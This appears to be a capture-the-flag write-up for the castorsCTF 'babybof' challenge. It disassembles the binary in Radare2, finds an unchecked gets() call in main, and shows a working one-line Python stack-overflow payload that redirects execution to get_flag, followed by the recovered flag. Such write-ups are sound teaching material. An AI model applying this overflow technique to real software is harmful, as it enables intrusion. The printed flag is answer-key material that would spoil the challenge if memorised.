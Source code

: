 # babybof

## Solution

Like with abcbof, we can use Radare2 to list all functions.

```
[greenavocado@greenavocado-pc babybof-pt1]$ r2 babybof
 -- Don't waste your time
[0x00400600]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x00400600]> afl
0x00400600    1 42           entry0
0x00400640    4 42   -> 37   sym.deregister_tm_clones
0x00400670    4 58   -> 55   sym.register_tm_clones
0x004006b0    3 34   -> 29   sym.__do_global_dtors_aux
0x004006e0    1 7            entry.init0
0x00400800    1 2            sym.__libc_csu_fini
0x004006e7    5 102          sym.get_flag
0x004005e0    1 6            sym.imp.fopen
0x004005f0    1 6            sym.imp.exit
0x00400580    1 6            sym.imp.putchar
0x004005c0    1 6            sym.imp.fgetc
0x004005a0    1 6            sym.imp.fclose
0x00400804    1 9            sym._fini
0x00400790    4 101          sym.__libc_csu_init
0x00400630    1 2            sym._dl_relocate_static_pie
0x0040074d    1 63           main
0x00400590    1 6            sym.imp.puts
0x004005b0    1 6            sym.imp.printf
0x004005d0    1 6            sym.imp.gets
0x00400550    3 23           sym._init
```

If we check the ```sym.get_flag``` function again, we would find that it's the same as the previous one, but with different addresses.

```asm
[0x00400600]> pdf @ sym.get_flag
┌ 102: sym.get_flag ();
│           ; var uint32_t c @ rbp-0x9
│           ; var file*stream @ rbp-0x8
│           0x004006e7      55             push rbp
│           0x004006e8      4889e5         mov rbp, rsp
│           0x004006eb      4883ec10       sub rsp, 0x10
│           0x004006ef      488d35220100.  lea rsi, [0x00400818]       ; "r" ; const char *mode
│           0x004006f6      488d3d1d0100.  lea rdi, str.flag.txt       ; 0x40081a ; "flag.txt" ; const char *filename
│           0x004006fd      e8defeffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)
│           0x00400702      488945f8       mov qword [stream], rax
│           0x00400706      48837df800     cmp qword [stream], 0
│       ┌─< 0x0040070b      7515           jne 0x400722
│       │   0x0040070d      bf01000000     mov edi, 1                  ; int status
│       │   0x00400712      e8d9feffff     call sym.imp.exit           ; void exit(int status)
│       │   ; CODE XREF from sym.get_flag @ 0x400735
│      ┌──> 0x00400717      0fbe45f7       movsx eax, byte [c]
│      ╎│   0x0040071b      89c7           mov edi, eax                ; int c
│      ╎│   0x0040071d      e85efeffff     call sym.imp.putchar        ; int putchar(int c)
│      ╎│   ; CODE XREF from sym.get_flag @ 0x40070b
│      ╎└─> 0x00400722      488b45f8       mov rax, qword [stream]
│      ╎    0x00400726      4889c7         mov rdi, rax                ; FILE *stream
│      ╎    0x00400729      e892feffff     call sym.imp.fgetc          ; int fgetc(FILE *stream)
│      ╎    0x0040072e      8845f7         mov byte [c], al
│      ╎    0x00400731      807df7ff       cmp byte [c], 0xff
│      └──< 0x00400735      75e0           jne 0x400717
│           0x00400737      488b45f8       mov rax, qword [stream]
│           0x0040073b      4889c7         mov rdi, rax                ; FILE *stream
│           0x0040073e      e85dfeffff     call sym.imp.fclose         ; int fclose(FILE *stream)
│           0x00400743      bf00000000     mov edi, 0                  ; int status
└           0x00400748      e8a3feffff     call sym.imp.exit           ; void exit(int status)
```

Again, we note the address of this function, which is ```0x004006e7```

Then, we disassemble the ```main``` function.

```asm
[0x00400600]> pdf @ main
            ; DATA XREF from entry0 @ 0x40061d
┌ 63: int main (int argc, char **argv, char **envp);
│           ; var char *s @ rbp-0x100
│           0x0040074d      55             push rbp
│           0x0040074e      4889e5         mov rbp, rsp
│           0x00400751      4881ec000100.  sub rsp, 0x100
│           0x00400758      488d3dc90000.  lea rdi, str.Welcome_to_the_cybercastors_Babybof ; 0x400828 ; "Welcome to the cybercastors Babybof" ; const char *s
│           0x0040075f      e82cfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00400764      488d3de10000.  lea rdi, str.Say_your_name: ; 0x40084c ; "Say your name: " ; const char *format
│           0x0040076b      b800000000     mov eax, 0
│           0x00400770      e83bfeffff     call sym.imp.printf         ; int printf(const char *format)
│           0x00400775      488d8500ffff.  lea rax, [s]
│           0x0040077c      4889c7         mov rdi, rax                ; char *s
│           0x0040077f      b800000000     mov eax, 0
│           0x00400784      e847feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x00400789      90             nop
│           0x0040078a      c9             leave
└           0x0040078b      c3             ret
```

This time, ```gets()``` is called almost immediately before the function returns.
There are no variables to overwrite, but we can still overwrite the return address.

```gets()``` uses the address at ```rbp-0x100```, so we need 0x100+8 bytes to overwrite ```rbp```, and another 8 bytes for the address.

This can be done using python:

```
python -c "import sys; sys.stdout.buffer.write(b'\x41' * (0x100 + 8) + b'\xe7\x06\x40\x00\x00\x00\x00\x00')" | ./babybof
```

Here's the output:

```
[greenavocado@greenavocado-pc babybof-pt1]$ python -c "import sys; sys.stdout.buffer.write(b'\x41' * (0x100 + 8) + b'\xe7\x06\x40\x00\x00\x00\x00\x00')" | ./babybof
Welcome to the cybercastors Babybof
Say your name: castorsCTF{th4t's_c00l_but_c4n_y0u_g3t_4_sh3ll_n0w?}
```

## Flag

```castorsCTF{th4t's_c00l_but_c4n_y0u_g3t_4_sh3ll_n0w?}```

